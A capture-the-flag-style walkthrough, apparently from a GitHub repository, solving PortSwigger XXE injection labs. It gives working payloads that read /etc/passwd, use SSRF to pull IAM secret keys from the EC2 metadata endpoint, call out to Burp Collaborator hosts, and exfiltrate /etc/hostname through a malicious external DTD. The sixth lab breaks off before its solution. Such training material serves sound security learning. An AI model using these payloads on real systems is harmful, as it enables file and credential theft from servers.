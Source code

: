 # XML External Entity (XXE) injection

## Lab 1: Exploiting XXE using external entities to retrieve files

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file

### Sol :

* Click `check stock` button and intercept the request.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/cb985550-dc41-473f-bd2f-39d16da37bc2)

* Give the below payload between the XML declaration and `stockcheck` element.

      <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

* Replace the `productID` with `&xxe;`

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/5f826b3e-8fdc-4d27-8692-a3656cde0dba)

* Forward the request. We will get the `passwd` file
* Thus, the lab is solved.

## Lab 2: Exploiting XXE to perform SSRF attacks

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

### Sol :

* Click `check stock` button and intercept the request.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/d3bb9191-7155-4b48-8e75-6714d1ea5ecd)

* Give the below payload between the XML declaration and `stockcheck` element.

      <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>

* Replace the `productID` with `&xxe;`

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/cb1bcdbc-db7b-452b-beb8-3ae06eac84e8)

* Forward the request. We will obtain the server's IAM secret access key from the EC2 metadata endpoint.
* Thus, the lab is solved.

## Lab 3: Blind XXE with out-of-band interaction

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator

### Sol :

* Click `check stock` button and intercept the request.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/77c4c68d-69c0-4628-88f8-37d08cb2278c)

* Give the below payload between the XML declaration and `stockcheck` element and your own Burp Collaborator payload.

      <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://8enq6m2m8qzud1x82itu68s9a0gr4hs6.oastify.com"> ]>

* Replace the `productID` with `&xxe;`

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/717b869f-17ec-4577-9cf1-d32b92ebb7b3)

* Forward the request, we will get that lab is solved.

## Lab 4: Blind XXE with out-of-band interaction via XML parameter entities

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

### Sol :

* Click `check stock` button and intercept the request.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/77c4c68d-69c0-4628-88f8-37d08cb2278c)

* Give the below payload between the XML declaration and `stockcheck` element and your own Burp Collaborator payload.

      <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://yuw9ydysol5e9y6vowhoq7umpdv4jv7k.oastify.com"> %xxe; ]>

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/16265929-1738-412d-808f-30dc54ea3f41)

* Forward the request, we will get that lab is solved.

## Lab 5: Exploiting blind XXE to exfiltrate data using a malicious external DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.

### Sol :

* Click `check stock`, Intercept the request and send it to the repeater.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/1fdc3ff1-6307-4364-ab33-b019b34f3597)

* Go to `Exploit Server` and create a `dtd` payload of below:

      <!ENTITY % file SYSTEM "file:///etc/hostname">
      <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
      %eval;
      %exfil;

* Replace the `BURP-COLLABORATOR-SUBDOMAIN` with your own collaborator payload.
* Save this payload with .dtd extension
* Store the payload and click `View exploit` and take a note of URL.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/574bc151-ecfc-4e52-9ad9-ead0564cf9c3)

* Give below payload as external entity definition in between the XML declaration and the `stockCheck` element by giving your own DTD URL.

      <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/608286ee-387a-4062-840a-9f69b9754dde)

* Go to `Burp Collaborator` and see the `HTTP` request.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/338bcfe1-c2d9-4e4b-ba2c-6209faea1a56)

* Enter the `x` code to solve the lab. Thus, the lab is solved.

## Lab 6: Exploiting blind XXE to retrieve data via error messages

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the /etc/passwd file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

### Sol :


